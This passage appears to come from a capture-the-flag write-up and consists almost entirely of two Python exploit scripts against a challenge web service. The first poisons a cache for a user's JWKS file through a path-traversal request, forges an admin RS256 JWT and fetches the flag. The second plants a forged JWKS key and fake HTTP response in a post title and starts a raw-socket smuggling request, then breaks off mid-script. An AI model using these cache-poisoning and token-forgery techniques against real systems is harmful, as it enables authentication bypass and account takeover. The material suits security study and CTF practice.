 ```bash
    'content': ' '
}, allow_redirects=False)

post_path = r.headers['Location']
print(f'Post created at {post_path}')

print(f'\n-----Cache poison /{user_id}/.well-known/jwks.json-----\n')

r = pwn.remote(target, 8080)
payload = f'GET /{user_id}/.well-known/jwks.json ../../../..{post_path}'
r.send(payload.encode() + b'\r\n')
r.close()

print('\n-----Get flag-----\n')

encoded = jwt.encode({'user': 'admin'}, open('key', 'r').read(), algorithm="RS256")

r = s.get(f'http://{target}:8080/admin/flag', headers = {
    'Authorization': f'Bearer {encoded}'
})
print(r.text)
```

## Writeup 2

chunked

```bash
import socket
import requests
import json
url = "http://localhost:8080"
s = requests.Session()
s.get(url)
user = {"username": "somer1234cs" , "password" : "asdf123ed"}
s.post(url+"/signup",data = user)
s.post(url+"/login",data=user)

key = {
    "keys": [
        {
            "alg": "RS256",
            "x5c": [
                "MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCkuU6E051FayM7hJ4RPDE7ahZG\nm4UTbILFpLjd1r6OU3L9+mkgp+OyNc9OgMFCzxK4yuMw9UPZX/0CVPciVKzjVQ+n\naj3AQqU8/pStES3ffQ3dX5Gtl45pMtexVcWx6pjSdhWpoE98v4ZdGcmt28NXpbRH\neZQxam+j/6xgBPh/3wIDAQAB"
            ]
        }
    ]
}
payload = 'HTTP/1.1 200 OK\nHost: localhost\n\r\n'+json.dumps(key)
post = {"title": payload,"content" : ""}
r= s.post(url+"/create_post", data=post, allow_redirects=False)
post = r.headers["location"]
user_id = post.split('/')[2]

server_address = ('localhost', 8080)

client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

client_socket.connect(server_address)

smuggle = "GET {}\r\nHost: localhost\r\n\r\n".format(post)
```